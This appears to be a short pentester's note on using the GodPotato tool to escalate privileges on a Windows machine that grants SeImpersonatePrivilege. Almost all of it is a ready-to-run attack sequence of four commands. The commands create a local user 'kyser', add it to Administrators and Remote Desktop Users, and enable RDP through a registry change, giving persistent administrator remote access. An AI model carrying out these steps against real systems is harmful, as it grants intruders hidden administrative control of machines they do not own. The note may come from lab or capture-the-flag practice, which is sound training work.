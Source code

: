 # GodPotato usage:

with SeImpersonatePrivilege we can use God Potato.  
  
https://github.com/BeichenDream/GodPotato/tree/main  
  
Get the latest release here and put it on the target machine (I used NET2.exe):  
https://github.com/BeichenDream/GodPotato/releases  
  
  
Now we can create a new user: 
```
.\GodPotato-NET2.exe -cmd "net user kyser password /add"  
```
  
Put them in the Administrators group: 
```
.\GodPotato-NET2.exe -cmd "net localgroup Administrators kyser /add"  
```
  
Put them in the Remote Desktop users Group: 
```
.\GodPotato-NET2.exe -cmd "net localgroup "Remote Desktop Users" kyser /add"  
```
    
And enable RDP with:  
```
.\GodPotato-NET2.exe -cmd 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'  
```
